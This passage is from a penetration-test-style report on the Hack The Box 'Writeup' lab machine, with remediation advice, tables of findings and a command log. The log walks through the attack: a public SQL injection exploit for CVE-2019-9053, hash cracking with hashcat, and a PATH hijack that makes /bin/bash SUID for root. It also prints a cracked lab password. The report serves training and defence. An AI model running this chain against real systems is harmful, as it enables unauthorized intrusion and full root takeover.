- **Finding #3 (PATH Hijacking)** – Audit and update system scripts (MOTD generation, cron jobs, init scripts) to invoke binaries via fully qualified paths rather than relying on `PATH` resolution.

### Long Term

- Establish a patch and dependency management process for all third-party software (CMS, plugins, frameworks) to close the window of exposure for known CVEs.
- Implement a periodic vulnerability assessment and penetration testing cadence to catch configuration drift such as risky group memberships or PATH ordering issues.
- Adopt a least-privilege review process for group memberships, auditing which groups grant write access to system-searched directories.
- Introduce automated CVE/vulnerability scanning against deployed software versions to flag outdated components before attackers find them.

---

## Lessons Learned / Skills Demonstrated

**Skill/Technique 1:**
Identified and exploited a known unauthenticated SQL injection vulnerability (CVE-2019-9053) in an outdated CMS installation using a public proof-of-concept, extracting user credentials without prior authentication.

**Skill/Technique 2:**
Cracked a salted MD5 password hash using Hashcat and a common wordlist, converting disclosed credential data into a usable system login.

**Skill/Technique 3:**
Identified and exploited a PATH-based privilege escalation vulnerability by leveraging non-default group permissions and process monitoring to hijack a root-executed binary, resulting in full root compromise.

---

## Appendix

### A. Finding Severity Definitions

| Rating | Definition |
| ------ | ---------- |
| **Critical** | Exploitation leads to full system/domain compromise with little to no effort or prerequisites. |
| **High** | Exploitation causes substantial harm to confidentiality, integrity, or availability. |
| **Medium** | Exploitation has a moderate impact, or a high-impact issue with limited exposure. |
| **Low** | Exploitation causes minimal impact to operations. |
| **Info** | An observation or improvement opportunity; not itself a vulnerability. |

### B. Exploited Hosts

| Host | Method | Notes |
| ---- | ------ | ----- |
| `10.129.68.170:80` | SQL Injection (CVE-2019-9053) | Initial access — credential disclosure |
| `10.129.68.170:22` | SSH (valid credentials) | Initial foothold — user.txt captured |
| `10.129.68.170` (local) | PATH Hijacking | Privilege escalation — root.txt captured |

### C. Compromised Users / Credentials

| Username | Method | Notes |
| -------- | ------ | ----- |
| `jkr` | SQLi credential disclosure + hash cracking | Password: `raykayjay9` (redact if sharing publicly) |
| `root` | PATH hijack via `staff` group write access | Escalated via SUID `/bin/bash` |

### D. Command Reference Log

```
nmap 10.129.68.170 -sC -sV
wget https://www.exploit-db.com/download/46635
python2 -m pip install termcolor
python2 46635.py -u http://10.129.68.170/writeup
echo "62def4866937f08cc13bab43bb14e6f7:5a599ef579066807" > hash
hashcat -a 0 -m 20 hash /usr/share/wordlists/rockyou.txt.gz
ssh jkr@10.129.68.170
id
ls -ld /usr/local/bin/ /usr/local/sbin/
wget https://github.com/DominicBreuker/pspy/releases/download/v1.0.0/pspy32
scp pspy32 jkr@10.129.68.170:/tmp
cd /tmp
chmod +x pspy32
./pspy32
echo -e '#!/bin/bash\n\nchmod u+s /bin/bash' > /usr/local/bin/run-parts
chmod +x /usr/local/bin/run-parts
ssh jkr@10.129.68.170
ls -l /bin/bash
/bin/bash -p
id
cat /root/root.txt
```

### E. References

- [NVD: CVE-2019-9053](https://nvd.nist.gov/vuln/detail/CVE-2019-9053)
- [Exploit-DB #46635 — CMS Made Simple ≤ 2.2.9 Unauthenticated SQL Injection](https://www.exploit-db.com/exploits/46635)
- [MITRE ATT&CK: T1190 — Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)
- [MITRE ATT&CK: T1110.002 — Brute Force: Password Cracking](https://attack.mitre.org/techniques/T1110/002/)
- [MITRE ATT&CK: T1574.007 — Hijack Execution Flow: Path Interception by PATH Environment Variable](https://attack.mitre.org/techniques/T1574/007/)
- [OWASP: Password Storage Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Password_Storage_Cheat_Sheet.html)
- [Official Hack The Box Writeup Machine Page](https://app.hackthebox.com/machines/Writeup)
